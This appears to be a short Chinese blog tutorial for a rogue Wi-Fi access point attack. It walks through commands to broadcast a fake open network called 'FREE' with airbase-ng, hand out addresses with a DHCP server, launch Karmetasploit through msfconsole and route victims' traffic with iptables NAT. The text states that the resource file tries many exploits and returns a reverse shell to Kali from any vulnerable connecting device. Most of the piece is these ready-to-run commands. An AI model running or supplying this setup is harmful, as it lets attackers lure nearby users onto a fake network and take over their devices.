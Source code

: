 伪造一个ap

```
 airbase-ng -P -C 30 -e "FREE" -v wlan0mon 

```

激活并配置<br/>
首先查看接口`ifconfig -a`查看到名称为ato

激活并配置ip

```
 ifconfig at0 up 10.0.0.1 netmask 255.255.255.0 

```

创建一个租约文件

```
 touch /var/lib/dhcp/dhcpd.leases 

```

启动dhcp服务

```
 dhcpd -cf /etc/dhcp/dhcpd.conf at0 

```

在物理主机上看，创建的已经存在了<br/>
<img src="https://img-blog.csdnimg.cn/20200726190142357.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/>

启动 Karmetasploit

```
msfconsole -q -r karma.rc_.txt 

```

资源文件.txt为许多漏洞利用的代码，一个个进行测试，如果存在漏洞，就会直接反弹shell到kali。

修改资源文件，官方给出的文件是不能适应真是环境的

```
vim  karma.rc_.txt 

```

删除第一行连接数据库的语句，因为msf已经连接了msf的账号。<br/>
删除steg的配置项。<br/>
删除set lport语句

添加路由转发

```
 echo 1 &gt; /proc/sys/net/ipv4/ip_forward  //开启数据转发
 
 iptables -P FORWARD ACCEPT 
 
 iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
  

```



参考文章地址:https://blog.csdn.net/Yu_csdnstory/article/details/107441171
